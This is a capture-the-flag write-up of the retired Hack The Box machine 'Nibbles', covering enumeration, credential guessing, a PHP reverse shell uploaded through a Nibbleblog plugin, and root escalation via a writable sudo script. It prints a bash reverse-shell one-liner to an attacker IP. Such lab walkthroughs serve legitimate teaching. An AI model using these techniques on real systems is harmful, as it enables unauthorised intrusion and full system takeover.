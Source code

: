 ```yaml
---
title: HTB - Nibbles writeup
date: 2025-08-20 08:00:00 +0000
categories:
  - CTF
  - HTB
tags:
  - CTF
  - HTB
  - easy
  - enumeration
  - privilege-escalation
---
```


---

![Nibbles Box](/assets/images/nibbles/NIBBLES.png)

**OS :** Linux  
**Difficulty :** Easy  
**Machine IP :** 10.10.10.75

Nibbles is an easy retired box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration for privilege escalation.

---

## Enumeration

First, we need to scan our target using `nmap` to see the open ports and services running on the target.  
![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

We get:

- SSH open on port 22
    
- HTTP open on port 80
    

Let’s check port 80, but first let’s add the IP address to our `/etc/hosts`:  
![Domain Name](/assets/images/nibbles/domain_name.png)

Now that we’ve added the host, let’s check out the website:  
![Web View](/assets/images/nibbles/web_view.png)

We get nothing here… but after checking the source code, I found a hidden web directory: `/nibbleblog/`.  
![Source Page](/assets/images/nibbles/source_page.png)

Accessing this directory shows us a blog:  
![Blog Page](/assets/images/nibbles/blog_page.png)

Next, I did some directory enumeration to see if there were any hidden files or directories. Using the `common.txt` wordlist, I got:  
![[dir_enum.png]]  
![[dir_enum_result.png]]

There are some interesting results. The first thing I checked was the `README` file:  
![[readme.png]]

It shows `Nibbleblog v4.0.3`.

Searching online, I found that it’s a CMS vulnerable to **Arbitrary File Upload**. To exploit this, we need credentials for the admin page.

After some enumeration, I discovered the username `admin`.  
![[username.png]]

I couldn’t find the password at first, but after a few guesses, I ended up with:

```
admin:nibbles
```

Now with credentials, I went to GitHub to check how to get RCE. From the code, I learned I need to upload a PHP reverse shell in `/content/private/plugins/my_image/`.  
![[github.png]]

So I went to the admin dashboard → Plugins → My Image → uploaded my reverse shell.  
![[reverse_shell.png]]  
![[uploaded_image.png]]

---

## Getting a Shell

Then I set up a Netcat listener:  
![[get_shell.png]]

Got the shell! I upgraded it with:

```bash
script /dev/null -c bash
```

![[shell_upgrade.png]]

We are now the user `nibbler`. In the home directory, I grabbed the first flag:  
![[first_flag.png]]

---

## Privilege Escalation

I ran:

```bash
sudo -l
```

![[sudo-l.png]]

It showed that we can run the `monitor.sh` script as root. After unzipping the `personal.zip` file, I got the script.  
![[the zip fie.png]]

Checking the file, I noticed I had write permission. So I overwrote it with a reverse shell:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![[overrideFile.png]]

Then I started another Netcat listener:  
![[root_reverse_shell.png]]

Finally, I ran the script as root:

```bash
sudo ./monitor.sh
```

![[run the reverse shell.png]]

And we got a **root shell**!  
![[get_root_shell.png]]

Grabbed the root flag:  
![[root_flag.png]]

---

and we are DONE  :)

